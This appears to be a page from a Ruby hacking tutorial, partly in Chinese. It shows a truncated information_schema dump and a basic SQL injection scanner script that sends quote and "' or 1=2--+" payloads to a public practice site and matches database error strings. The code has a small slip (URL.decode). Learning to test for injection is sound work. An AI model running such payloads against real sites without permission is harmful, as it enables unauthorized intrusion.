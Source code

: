 ```
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL 
```

这是一个非常基本和简单的 SQL 注入实体扫描器，尽可能地完善它！

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      "'",
      '"',
      "' or 1=2--+"
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occurred = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil? 
```

